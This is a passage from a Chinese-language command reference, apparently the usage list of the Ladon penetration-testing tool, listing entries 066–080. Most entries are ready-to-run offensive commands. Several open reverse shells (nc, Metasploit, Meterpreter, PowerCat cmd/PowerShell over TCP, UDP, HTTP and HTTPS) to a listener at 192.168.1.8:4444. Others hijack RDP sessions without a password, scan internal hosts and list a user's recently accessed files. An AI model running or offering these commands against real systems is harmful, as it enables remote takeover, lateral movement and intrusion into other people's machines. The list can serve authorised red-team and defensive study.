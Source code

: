 ### 其它功能

##### 066 一键启用.net 3.5	
Ladon EnableDotNet

##### 067 获取内网站点HTML源码 	
Ladon gethtml http://192.168.1.1

##### 068 检测后门
Ladon CheckDoor
Ladon AutoRun

##### 069 获取本机内网IP与外网IP 	
Ladon GetIP

##### 070 一键迷你WEB服务器 	
Ladon WebSer 80
Ladon web 80

### 反弹Shell

##### 071 反弹TCP NC Shell
Ladon ReverseTcp 192.168.1.8 4444 nc

##### 072 反弹TCP MSF Shell
Ladon ReverseTcp 192.168.1.8 4444 shell

##### 073 反弹TCP MSF MET Shell
Ladon ReverseTcp 192.168.1.8 4444 meter

##### 074 反弹HTTP MSF MET Shell
Ladon ReverseHttp 192.168.1.8 4444

##### 075 反弹HTTPS MSF MET Shell
Ladon ReverseHttps 192.168.1.8 4444

##### 076 反弹TCP CMD & PowerShell Shell
Ladon PowerCat -r 192.168.1.8 4444 cmd
Ladon PowerCat -r 192.168.1.8 4444 psh

##### 077 反弹UDP Cmd & PowerShell Shell
Ladon PowerCat -r 192.168.1.110 4444 cmd -u
Ladon PowerCat -r 192.168.1.8 4444 psh -u

##### 078 RDP桌面会话劫持（无需密码）
Ladon RDPHijack 3
Ladon RDPHijack 3 console

##### 079 OXID定位多网卡主机
Ladon 192.168.1.8/24 EthScan
Ladon 192.168.1.8/24 OxidScan

#### 080 查看用户最近访问文件
Ladon Recent
